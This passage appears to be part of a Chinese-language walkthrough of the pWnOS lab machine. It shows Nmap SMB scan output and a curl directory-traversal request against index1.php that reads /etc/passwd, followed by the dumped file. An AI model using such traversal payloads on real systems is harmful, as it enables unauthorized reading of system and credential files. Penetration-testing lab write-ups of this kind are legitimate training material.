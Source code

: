 ```shell
|_smb-vuln-ms10-054: false
|_smb-vuln-regsvc-dos: ERROR: Script execution failed (use -d to debug)
|_smb-vuln-ms10-061: false

# Nmap done at Fri May 26 09:45:17 2023 -- 1 IP address (1 host up) scanned in 344.92 seconds

```





## web发现：

-   首页可能存在文件包含漏洞

-   ![image-20230526094432860](https://raw.githubusercontent.com/r0o983/images/main/image-20230526094432860.png)

-   尝试读取`/etc/passwd `and `/etc/shadow` 文件

-   经过测试只能读取`/etc/passwd`

-   ```shell
    └─$ curl "192.168.2.138/index1.php?help=true&connect=true/../../../../../../../../../etc/passwd" | html2text 
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100  2005  100  2005    0     0   956k      0 --:--:-- --:--:-- --:--:--  979k
                     ****** Welcome to the pWnOS homepage! ******
    This is the official help page. If you're too big of a n00b to figure this out,
    enter your information below for a small hint. :)
     ____________________________________________________________________
    |Name:_________|[name_____________________]| ___________| _________|
    |Skillz:_______|on00b______________________|osk1ll3d_n00b|ol33t_hax0r|
    |[Please_Help!]| _________________________| ___________| _________|
    root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/bin/sh bin:x:2:
    2:bin:/bin:/bin/sh sys:x:3:3:sys:/dev:/bin/sh sync:x:4:65534:sync:/bin:/bin/
    sync games:x:5:60:games:/usr/games:/bin/sh man:x:6:12:man:/var/cache/man:/bin/
    sh lp:x:7:7:lp:/var/spool/lpd:/bin/sh mail:x:8:8:mail:/var/mail:/bin/sh news:x:
    9:9:news:/var/spool/news:/bin/sh uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
    proxy:x:13:13:proxy:/bin:/bin/sh www-data:x:33:33:www-data:/var/www:/bin/sh
    backup:x:34:34:backup:/var/backups:/bin/sh list:x:38:38:Mailing List Manager:/
    var/list:/bin/sh irc:x:39:39:ircd:/var/run/ircd:/bin/sh gnats:x:41:41:Gnats
    Bug-Reporting System (admin):/var/lib/gnats:/bin/sh nobody:x:65534:65534:
    nobody:/nonexistent:/bin/sh dhcp:x:100:101::/nonexistent:/bin/false syslog:x:
    101:102::/home/syslog:/bin/false klog:x:102:103::/home/klog:/bin/false mysql:x:
    103:107:MySQL Server,,,:/var/lib/mysql:/bin/false sshd:x:104:65534::/var/run/
    sshd:/usr/sbin/nologin vmware:x:1000:1000:vmware,,,:/home/vmware:/bin/bash
    obama:x:1001:1001::/home/obama:/bin/bash osama:x:1002:1002::/home/osama:/bin/
    bash yomama:x:1003:1003::/home/yomama:/bin/bash
    ```
